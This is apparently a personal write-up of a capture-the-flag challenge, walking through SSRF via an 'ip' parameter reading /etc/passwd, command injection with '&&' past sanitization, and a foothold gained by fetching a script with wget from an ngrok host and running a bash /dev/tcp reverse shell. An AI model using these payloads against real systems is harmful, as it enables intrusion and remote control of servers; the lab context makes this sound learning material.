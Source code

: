 
2024-11-05 20:23

Source: #CTF 

Nmap scan the IP
Directory Bursting on Website
### SSRF on /status/index.php

in the captured burp suite request we have an IP field 
on changing the ip field we get etc/passwd in return 
```
ip=file:///etc/passwd
```
### RCE via SSRF

change the IP field to the following
```
ip=file:///proc/self/cwd/index.php
```

this will get the index.php, now decode this from html encoding
There is some sanitization to avoid RCE, but by using `&&` , we can still execute commands and bypass the sanitization. payload (I had urlencoded the &): 
```
ip=file:///etc/passwd&&id&&
```

#### Gaining foothold

I used ngrok to gain a foothold on the punisher user, and for the rest of the lateral movement, I used the CTF server itself. 
I used ngrok to expose my local port to the internet so that I could upload a shell code file onto the server

```sh
cat shell.sh
bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16004 0>&1'
```

Uploaded this file on server using wget at /tmp/shell.sh
```sh
# File uploaded on the server 
ip=file:///etc/passwd&&wget http://0.tcp.in.ngrok.io:16004/
shell.sh -O /tmp/shell.sh&&

# Executed the /tmp/shell.sh file 
ip=file:///etc/passwd&&bash /tmp/shell.sh&&
```


### References
 ISH CTF - Shivam